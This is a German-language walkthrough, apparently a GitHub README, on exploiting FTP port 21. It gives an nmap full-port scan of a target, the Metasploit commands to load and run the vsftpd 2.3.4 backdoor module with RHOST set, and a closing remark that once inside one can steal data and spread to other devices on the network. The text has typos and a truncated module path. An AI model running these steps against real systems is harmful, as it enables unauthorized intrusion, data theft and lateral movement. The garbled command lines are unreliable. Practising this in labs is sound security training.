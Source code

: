 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt u zu sehen welched Portsoffen sind.

sudo nmap -p- -sV -O {IP-Adresse des Ziels}
  
 <h2>Port 21:</h2>

service postgresql start

service postgresql status 
  
Danach wird ein passwort verlangt

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png" alt="PStatus Serie" width="600" height="250">
  
  
Danach öffnet man die "msf console": msfconsole
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
  search vsftpd 2.3.4
  So sieht es aus wenn ein Exploit existiert
![image](https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png)

loit/unix/ftp/vsftpd_234_backdoor
use exploit loit/unix/ftp/vsftpd_234_backdoor
  
show options
  ![image](https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png)
Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
set RHOST {IP-Adresse des Ziels}
  
 Nohal kontrolieren mit: show options
  
 danah kann an einfah den Comand "exploit" absetzen
  ![image](https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png)
  
  Da man nun imSystem ist kann man mit Befehlen wie WHOAMI oder $HOME sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif aus Andere Geräte im Netzwerk erweitern. 


